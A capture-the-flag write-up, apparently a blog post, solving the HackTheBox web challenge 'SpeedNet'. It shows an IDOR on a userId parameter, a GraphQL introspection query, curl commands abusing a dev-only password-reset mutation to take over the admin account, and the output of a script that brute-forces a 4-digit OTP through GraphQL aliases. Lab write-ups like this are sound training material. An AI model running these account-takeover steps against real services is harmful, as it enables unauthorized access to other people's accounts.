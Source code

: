```yaml
---
title: 'HackTheSystem: SpeedNet'
author: lict
categories: [HackTheBox]
tags: [web, graphql, IDOR, OTP, bruteforce]
render_with_liquid: false
media_subpath: /images/hackthesystem_speednet/
---
```


The challenge description:
```
Speednet is an Internet Service Provider platform that enables users to purchase internet services. We invite you to participate in our bug bounty program to identify any potential vulnerabilities within the application and retrieve the flag hidden on the site. For your testing, we have provided additional email services. Please find the details below:  
Email Site: `http://IP:PORT/emails/` Email Address: test@email.htb
```

We can make an account here, let's proceed with that. When we visit the `/profile` endpoint, the browser sends the following request to load our data:

![Pasted image 20250629182719.png](Pasted image 20250629182719.png)

Let's change the `userId` parameter to `1` and see if we can get the `admin`'s data:

![[Pasted image 20250629182811.png]]

It worked! I saved the output we got and tried to send the introspection query.
Here's the request body I sent to `/graphql` endpoint:
```
{"query":"{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}"}
```

I noticed this interesting mutation, seems like we can reset the `admin`'s password:

![[Pasted image 20250629183152.png]]

I used the following `curl` command to proceed:
```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ curl 'http://94.237.62.135:45936/graphql' \
  -X POST \
  -H 'Content-Type: application/json' \
  --data-raw '{"query":"mutation GetAdminResetToken { devForgotPassword(email:   \"admin@speednet.htb\") }"}'
{"data":{"devForgotPassword":"Dev only! Password reset token: 885ba666-3dfd-4175-9fdc-406c2e15dcbc"}}

```

Then, using the token I got I reset the admin's password:
```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ curl 'http://94.237.62.135:45936/graphql' \
  -X POST \
  -H 'Content-Type: application/json' \
  --data-raw '{"query":"mutation ChangeAdminPassword { resetPassword(token: \"885ba666-3dfd-4175-9fdc-406c2e15dcbc\", newPassword: \"Lictwashere123!\") }"}'
{"data":{"resetPassword":"Password has been reset successfully"}}

```

It worked, I was able to login as admin but it asked for an OTP:

![[Pasted image 20250629183832.png]]

I clicked resend OTP hoping it will be exposed somewhere, but it just exposed a token:

![[Pasted image 20250629184139.png]]

I've decided to `bruteforce` the OTP using `graphql aliases`. I vibe coded a tool again, made small changes, grabbed the token and ran it hoping it will work, and BOOM!

```
┌──(kali㉿kali)-[/tmp/mongo-objectid-predict]
└─$ python3 hack_otp.py

[*] Starting attack for 4-digit OTPs...
[*] Target: http://94.237.62.135:45936/graphql
[*] Batch size: 200

[*] Sending batch: 0000 -> 0199
[*] Sending batch: 0200 -> 0399
[*] Sending batch: 0400 -> 0599
[*] Sending batch: 0600 -> 0799
[*] Sending batch: 0800 -> 0999
[*] Sending batch: 1000 -> 1199
[*] Sending batch: 1200 -> 1399
[*] Sending batch: 1400 -> 1599
[*] Sending batch: 1600 -> 1799
[*] Sending batch: 1800 -> 1999

==================================================
[+] SUCCESS! OTP FOUND: 1814
==================================================

[+] Full Response from Server:
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImlhdCI6MTc1MTIwODI4NSwiZXhwIjoxNzUxMjExODg1fQ.mWEpTT-kDCqiBjj8uKk1h4kASKQDcwlJHP6uQGGSfyQ",
  "user": {
    "id": 1,
    "email": "admin@speednet.htb"
  }
}

[+] FINAL SESSION TOKEN:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsImlhdCI6MTc1MTIwODI4NSwiZXhwIjoxNzUxMjExODg1fQ.mWEpTT-kDCqiBjj8uKk1h4kASKQDcwlJHP6uQGGSfyQ

```

I signed into my own account and switched tokens in `Local Storage` from mine to the hacked one. I refreshed the page using `CTRL+SHIFT+R` and noticed that I am logged in as `admin@speednet.htb`. I just navigated to the `Billing` tab, scrolled the page down and grabbed the flag!

![[Pasted image 20250629184844.png]]
